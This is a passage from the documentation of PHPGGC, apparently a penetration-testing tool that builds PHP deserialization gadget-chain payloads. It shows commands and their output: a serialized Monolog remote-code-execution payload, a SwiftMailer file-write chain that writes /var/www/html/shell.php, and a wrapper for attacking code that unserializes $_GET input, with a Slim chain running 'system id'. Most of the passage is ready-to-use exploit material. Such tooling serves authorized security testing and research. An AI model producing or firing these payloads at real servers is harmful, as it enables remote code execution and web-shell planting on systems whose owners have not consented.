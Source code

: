 Once you have selected a chain, run `./phpggc <gadget-chain> [parameters]` to obtain the payload.
For instance, to obtain a payload for Monolog, you'd do:

```
$ ./phpggc monolog/rce1 assert 'phpinfo()'
O:32:"Monolog\Handler\SyslogUdpHandler":1:{s:9:"*socket";O:29:"Monolog\Handler\BufferHandler":7:{s:10:"*handler";r:2;s:13:"*bufferSize";i:-1;s:9:"*buffer";a:1:{i:0;a:2:{i:0;s:10:"phpinfo();";s:5:"level";N;}}s:8:"*level";N;s:14:"*initialized";b:1;s:14:"*bufferLimit";i:-1;s:13:"*processors";a:2:{i:0;s:7:"current";i:1;s:6:"assert";}}}
```

For a file write using SwiftMailer, you'd do:

```
$ echo 'It works !' > /tmp/data
$ ./phpggc swiftmailer/fw1 /var/www/html/shell.php /tmp/data
O:13:"Swift_Message":8:{...}
```


## Wrapper

The `--wrapper` (`-w`) option allows you to define a PHP file containing the following functions:

- `process_parameters($parameters)`: Called right **before** `generate()`, allows to change parameters
- `process_object($object)`: Called right **before** `serialize()`, allows to change the object
- `process_serialized($serialized)`: Called right **after** `serialize()`, allows to change the serialized string

For instance, if the vulnerable code looks like this:

```php
<?php
$data = unserialize($_GET['data']);
print $data['message'];
```

You could use a `__toString()` chain, wrapping it like so:

```php
<?php
# /tmp/my_wrapper.php
function process_object($object)
{
    return array(
        'message' => $object
    );
}
```

And you'd call phpggc like so:

```
$ ./phpggc -w /tmp/my_wrapper.php slim/rce1 system id
a:1:{s:7:"message";O:18:"Slim\Http\Response":2:{...}}
```
